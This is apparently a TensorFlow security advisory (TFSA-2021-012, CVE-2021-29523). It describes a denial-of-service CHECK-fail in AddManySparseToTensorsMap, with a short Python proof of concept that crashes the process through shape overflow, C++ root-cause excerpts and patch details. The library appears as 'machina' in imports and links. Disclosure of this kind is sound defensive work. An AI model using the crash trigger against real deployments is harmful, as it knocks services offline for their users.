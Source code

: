 ## TFSA-2021-012: `CHECK`-fail in `AddManySparseToTensorsMap`

### CVE Number
CVE-2021-29523

### Impact
An attacker can trigger a denial of service via a `CHECK`-fail in
`tf.raw_ops.AddManySparseToTensorsMap`:

```python
import machina as tf
import numpy as np

sparse_indices = tf.constant(530, shape=[1, 1], dtype=tf.int64)
sparse_values = tf.ones([1], dtype=tf.int64)

shape = tf.Variable(tf.ones([55], dtype=tf.int64))
shape[:8].assign(np.array([855, 901, 429, 892, 892, 852, 93, 96], dtype=np.int64))

tf.raw_ops.AddManySparseToTensorsMap(
    sparse_indices=sparse_indices,
    sparse_values=sparse_values,
    sparse_shape=shape)
```

This is because the
[implementation](https://github.com/machina/machina/blob/6f9896890c4c703ae0a0845394086e2e1e523299/machina/core/kernels/sparse_tensors_map_ops.cc#L257)
takes the values specified in `sparse_shape` as dimensions for the output shape:

```cc
    TensorShape tensor_input_shape(input_shape->vec<int64>());
```

The [`TensorShape`
constructor](https://github.com/machina/machina/blob/6f9896890c4c703ae0a0845394086e2e1e523299/machina/core/framework/tensor_shape.cc#L183-L188)
uses a `CHECK` operation which triggers when
[`InitDims`](https://github.com/machina/machina/blob/6f9896890c4c703ae0a0845394086e2e1e523299/machina/core/framework/tensor_shape.cc#L212-L296)
returns a non-OK status.

```cc
template <class Shape>
TensorShapeBase<Shape>::TensorShapeBase(gtl::ArraySlice<int64> dim_sizes) {
  set_tag(REP16);
  set_data_type(DT_INVALID);
  TF_CHECK_OK(InitDims(dim_sizes));
}
```

In our scenario, this occurs when adding a dimension from the argument results
in overflow:

```cc
template <class Shape>
Status TensorShapeBase<Shape>::InitDims(gtl::ArraySlice<int64> dim_sizes) {
  ...
  Status status = OkStatus();
  for (int64 s : dim_sizes) {
    status.Update(AddDimWithStatus(internal::SubtleMustCopy(s)));
    if (!status.ok()) {
      return status;
    }
  }
}

template <class Shape>
Status TensorShapeBase<Shape>::AddDimWithStatus(int64 size) {
  ...
  int64 new_num_elements;
  if (kIsPartial && (num_elements() < 0 || size < 0)) {
    new_num_elements = -1;
  } else {
    new_num_elements = MultiplyWithoutOverflow(num_elements(), size);
    if (TF_PREDICT_FALSE(new_num_elements < 0)) {
        return errors::Internal("Encountered overflow when multiplying ",
                                num_elements(), " with ", size,
                                ", result: ", new_num_elements);
      }
  }
  ...
}
```

This is a legacy implementation of the constructor and operations should
use `BuildTensorShapeBase` or `AddDimWithStatus` to prevent `CHECK`-failures in
the presence of overflows.

### Patches
We have patched the issue in GitHub commit
[69c68ecbb24dff3fa0e46da0d16c821a2dd22d7c](https://github.com/machina/machina/commit/69c68ecbb24dff3fa0e46da0d16c821a2dd22d7c).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
